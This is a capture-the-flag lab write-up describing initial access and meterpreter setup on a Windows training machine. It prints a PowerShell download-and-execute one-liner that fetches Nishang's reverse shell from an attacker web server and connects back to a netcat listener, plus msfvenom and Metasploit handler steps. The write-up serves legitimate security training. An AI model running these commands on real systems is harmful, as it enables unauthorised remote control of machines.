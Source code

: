 We will make use of the [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) provided in the exerise. We first set up a web server on port 9999:

<center>

![d135c1b5422b75eb6d5b67c8c0f4a092.png](../../_resources/d135c1b5422b75eb6d5b67c8c0f4a092-1.png)

</center>

Set up a netcat listener on a different port with ``nc -lvnp 8888`` then execute the following command

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://LOCAL_IP:9999/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress LOCAL_IP -Port 8888
```

using the feature we found in the enumeration phase. Our netcat listener will catch the reverse shell, giving us initial access to the machine.

<center>

![1572bfd20feeccdf3a2075f2160176fe.png](../../_resources/1572bfd20feeccdf3a2075f2160176fe-1.png)

</center>

Digging around, we eventually find the user.txt file in ``C:\Users\bruce\Desktop``.

<center>

![9ca6197a960a87ec9973d760e8b3c825.png](../../_resources/9ca6197a960a87ec9973d760e8b3c825-1.png)

</center>

Using ``type user.txt`` gives us our flag.

As part of Task 2, we are asked to switch to a meterpreter shell in order to facilitate easier privilege escalation. We generate an x86-64 reverse shell using msfvenom:

<center>

![00cf123b41d92301f44b5cc4ab6244ba.png](../../_resources/00cf123b41d92301f44b5cc4ab6244ba-1.png)

</center>

Note that this gives us the answer to the only question in Task 2. We download the .exe file on the target machine using the same technique used in Task 1. Now set up a handler in Metasploit with ``use exploit/multi/handler`` with the following options:

<center>

![e18242f0bff037e0f026b24a82b01662.png](../../_resources/e18242f0bff037e0f026b24a82b01662-1.png)

</center>

Now ``run``  to start the reverse TCP handler. On our target machine, we navigate to the directory containing our msfvenom payload and execute  ``Start-Process task2shell.exe`` . This gives us a meterpreter session:

<center>

![aeab9f9383a0bda9bdecac00b6f03c87.png](../../_resources/aeab9f9383a0bda9bdecac00b6f03c87-1.png)

</center>

(Note: The target IP is a bit different here, as I had to reset the machine.)